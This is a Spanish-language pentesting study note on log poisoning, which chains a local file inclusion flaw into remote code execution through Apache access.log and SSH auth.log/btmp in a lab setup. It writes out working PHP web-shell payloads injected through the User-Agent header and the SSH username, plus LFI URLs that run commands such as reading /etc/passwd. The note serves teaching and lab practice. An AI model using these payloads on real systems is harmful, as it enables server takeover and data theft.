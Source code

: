 # Log Poisoning (LFI -> RCE)

Tags: #LFI #OWASP #Explotacion #RCE

El **Log Poisoning** es una técnica de ataque en la que un atacante **manipula** los **archivos de registro** (**logs**) de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad **Local File Inclusion (LFI)** para lograr una **Remote Code Execution (RCE)** en el servidor.

Como ejemplos para esta clase, trataremos de envenenar los recursos ‘**auth.log**‘ de **SSH** y ‘**access.log**‘ de **Apache**, comenzando mediante la explotación de una vulnerabilidad LFI primeramente para acceder a estos archivos de registro. Una vez hayamos logrado acceder a estos archivos, veremos cómo manipularlos para incluir código malicioso.

En el caso de los logs de SSH, el atacante puede inyectar código PHP en el campo de **usuario** durante el proceso de autenticación. Esto permite que el código se registre en el log ‘**auth.log**‘ de SSH y sea interpretado en el momento en el que el archivo de registro sea leído. De esta manera, el atacante puede lograr una ejecución remota de comandos en el servidor.

En el caso del archivo ‘**access.log**‘ de Apache, el atacante puede inyectar código PHP en el campo **User-Agent** de una solicitud HTTP. Este código malicioso se registra en el archivo de registro ‘access.log’ de Apache y se ejecuta cuando el archivo de registro es leído. De esta manera, el atacante también puede lograr una ejecución remota de comandos en el servidor.

Cabe destacar que en algunos sistemas, el archivo ‘**auth.log**‘ no es utilizado para registrar los eventos de autenticación de SSH. En su lugar, los eventos de autenticación pueden ser registrados en archivos de registro con diferentes nombres, como ‘**btmp**‘.

Por ejemplo, en sistemas basados en Debian y Ubuntu, los eventos de autenticación de SSH se registran en el archivo ‘auth.log’. Sin embargo, en sistemas basados en Red Hat y CentOS, los eventos de autenticación de SSH se registran en el archivo ‘btmp’. Aunque a veces pueden haber excepciones.

Para prevenir el Log Poisoning, es importante que los desarrolladores limiten el acceso a los archivos de registro y aseguren que estos archivos se almacenen en un lugar seguro. Además, es importante que se valide adecuadamente la entrada del usuario y se filtre cualquier intento de entrada maliciosa antes de registrarla en los archivos de registro.


## HTML Apache

Debemos de etare en el grupo **adm** y nos podemos ir a la siguiente ruta para mirar logs
```bash
/var/log
```

```bash
❯ cat access.log       # Podemos ver los logs en Apache
```

* **index.php?filename=/var/log/apache2/access.log** -> Ruta tipica de logs de Apache en donde podemos ver los logs, incluyendo los del User Agent ('Mozilla/5.0 (Windows NT...)')
**User Agent**: Es un campo del protocolo HTTP que puede utilizarse para transmitir informacion mas o menos detallada sobre el dispositivo de consulta que tramita la solicitud

Podemos hacer la solicitud a la pagina y mirar en los log el User-Agent y la peticion que hicimos
```bash
❯ curl -s -X GET "http://localhost/test" -H "User-Agent: PROBANDO"

	# H = Cabecera que queremos modificar
```

---
Podemos inyectar comandos si estamos en una pagina en PHP
**Nota**: La funcion System debe de estar habilitada

Para saber si hay funciones desabilitadas
```bash
❯ curl -s -X GET "http://localhost/test" -H "User-Agent: <?php phpinfo(); ?>"   # Miras el phpinfo en la web y nos fijamos en 'disable_functions' para verificar que no este system ahi 
```

Podemos ejecutar comandos especificos 
```bash
❯ curl -s -X GET "http://localhost/test" -H "User-Agent: <?php system('whoami'); ?>"
```

Podemos controlar la ejecucion del comando
```bash
❯ curl -s -X GET "http://localhost/test" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"     # Escapamos el dollar porque en bash a veces genera conflictos
```
* index.php?filename=/var/log/apache2/access.log&cmd=whoami
Debemos de colocar al final **&cmd=comando** y es ahi donde podriamos colocar cualquier comando 

## SSH

Debemos de etare en el grupo **adm** y nos podemos ir a la siguiente ruta para mirar logs
```bash
/var/log
```

```bash
❯ cat auth.log            # Podemos ver los logs en SSH
❯ cat btmp
```

Autenticarnos con SSH
```bash
❯ ssh test@172.17.0.2     # Nos autenticamos con ssh
```
Si colocamos una passwd incorrecta, generamos un log y se almacena en 'btmp'

Nosotros podemos controlar el log que es del usuario
```bash
❯ ssh '<?php system($_GET["cmd"]); ?>'@172.17.0.2
```
Por ende en la url podemos controlar la ejecucion del comando, si ese archivo tiene capacidad de escritura
* index.php?filename=/var/log/btmp&cmd=cat /etc/passwd
Debemos de colocar al final **&cmd=comando** y es ahi donde podriamos colocar cualquier comando 